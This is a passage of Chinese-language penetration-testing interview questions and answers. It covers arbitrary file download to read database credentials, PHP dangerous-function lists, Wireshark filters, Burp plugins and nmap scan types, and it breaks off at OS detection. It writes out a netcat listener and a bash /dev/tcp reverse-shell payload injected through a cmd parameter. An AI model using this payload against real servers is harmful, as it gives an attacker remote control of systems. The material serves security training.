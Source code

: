 #### ✸	目标站发现某txt 的下载地址为 
http://www.test.com/down/down.php?file=/upwdown/1.txt ，你有什么思路？ <br>
这就任意文件下载漏洞，在 file=后面尝试输入 index.php 下载他的首页文件，然后在首页文件里继续查找其他网站的配置文件，可以找出网站的数据库密码和数据库的地址。<br>
#### ✸	甲给你一个目标站，并且告诉你根目录下存在/abc/目录，并且此目录下存在编辑器和admin目录。请问你的想法是？<br>
直接在网站二级目录/abc/下扫描敏感文件及目录。<br>

#### ✸	如何利用 php 的远程命令执行函数进行反弹 nc? 
system,exec,shell_exec,paassthru,popen,proc_popen, <br>
反弹 shell 公网服务器执行 nc –lvv 8888 <br>
目标服务器上执行?cmd= bash -i >& /dev/tcp/10.0.0.1/8888 0>&1 <br>

#### ✸	代码执行，文件读取，命令执行的函数都有哪些？ 
(1)代码执行： <br>
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function <br>
(2)文件读取 ：file_get_contents(),highlight_file(),fopen(),readfile(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等 <br>
(3)命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open() <br>

img 标签除了 onerror 属性外，还有其他获取管理员路径的办法吗？ <br>
src 指定一个远程的脚本文件，获取 referer <br>

### 4、工具
#### ✸	用过wireshark吗？用burpsuite抓过包吗？
（1）Fiddler 是以代理web服务器的形式工作的,它使用代理地址:127.0.0.1, 端口:8888. 当开启Fiddler会自动设置代理， 退出的时候它会自动注销代理。<br>
（2）wireshark是捕获机器上的某一块网卡的网络包。<br>

流量分析---wireshark简单的过滤规则<br>
过滤ip:<br>
过滤源ip地址:ip.src==1.1.1.1;,目的ip地址:ip.dst==1.1.1.1;<br>
过滤端口:<br>
过滤80端口:tcp.port==80,源端口:tcp.srcport==80,目的端口:tcp.dstport==80<br>
协议过滤:<br>
直接输入协议名即可,如http协议http<br>
http模式过滤:<br>
过滤get/post包http.request.mothod=="GET/POST"<br>

Buipsuite插件<br>
Autorize —— 强大的越权自动化测试工具<br>
在插件中设置一个低权限账号的 cookie，使用高权限的账户浏览所有功能。插件会自动用低权限账号重放请求，<br>
Turbo Intruder —— 短时间发送大量请求，增强版的intruder<br>

#### ✸	AWVS为什么不能扫描一些逻辑漏洞？
网络漏洞扫描工具，它通过网络爬虫测试你的网站安全，检测流行安全漏洞<br>

#### ✸	nmap 扫描的几种方式? 
Nmap功能的实现基于各种层面的协议。<br>
（1）主机发现 <br>
nmap -sP x.x.x.x/24 PING扫描，扫描内网在线主机，利用网络层ICMP协议<br>
（2）端口扫描<br>
nmap -sU x.x.x.x UDP扫描，扫描主机打开的UDP端口，利用传输层的协议<br>
nmap -sS x.x.x.x TCP SYN半开放扫描，好处是不需要进行三次握手，不会留下日志信息<br>
nmap -sT x.x.x.x TCP Connect扫描，执行三次握手<br>
（3）版本侦测 <br><br>
nmap -sV x.x.x.x 版本探测<br>
（4）OS侦测<br>

